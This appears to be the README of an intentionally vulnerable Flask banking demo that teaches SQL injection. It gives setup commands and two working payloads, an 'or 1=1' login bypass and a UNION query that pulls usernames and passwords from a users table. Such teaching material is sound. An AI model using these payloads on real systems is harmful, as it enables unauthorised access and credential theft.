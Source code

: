 # broke-bank
SQL injection demo

# Setup

1. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

2. Create and activate virtual environment (optional, recommended)
```shell
python -m venv .venv      # Create virtual environment
source .venv/bin/activate # On macOS/Linux
.venv\Scripts\activate    # On Windows
```

2. Install dependencies
```shell
pip install -r requirements.txt
```

3. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

Login form password (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```

Transaction history search bar
```sql
3' union select null, user_id, version(), username, user_password from users;
```

